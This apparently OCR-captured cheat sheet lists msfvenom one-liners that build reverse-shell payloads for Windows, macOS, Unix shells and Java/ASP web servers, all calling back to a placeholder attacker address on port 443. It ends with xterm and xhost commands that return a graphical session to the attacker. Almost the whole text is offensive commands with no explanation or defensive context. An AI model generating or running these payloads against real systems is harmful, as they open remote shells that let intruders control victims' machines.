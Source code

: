 `msfvenom -p windows/meterpreter/reverse_tcp LHOST="1.1.1.1" LPORT=443 -f exe > shell.exe`

`msfvenom -p osx/x86/shell_reverse_tcp LHOST="1.1.1.1" LPORT=443 -f macho > shell.macho`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST="1.1.1.1" LPORT=443 -f asp > shell.asp`

`msfvenom -p java/jsp_shell_reverse_tcp LHOST="1.1.1.1" LPORT=443 -f raw > shell.jsp`

`msfvenom -p java/jsp_shell_reverse_tcp LHOST="1.1.1.1" LPORT=443 -f war > shell.war`

`msfvenom -p cmd/unix/reverse_python LHOST="1.1.1.1" LPORT=443 -f raw > shell.py`

`msfvenom -p cmd/unix/reverse_bash LHOST="1.1.1.1" LPORT=443 -f raw > shell.sh`

`msfvenom -p cmd/unix/reverse_perl LHOST="1.1.1.1" LPORT=443 -f raw > shell.pl`

# Xterm:

`xterm -display 1.1.1.1:1`
`Xnest :1`
`xhost +targetip`
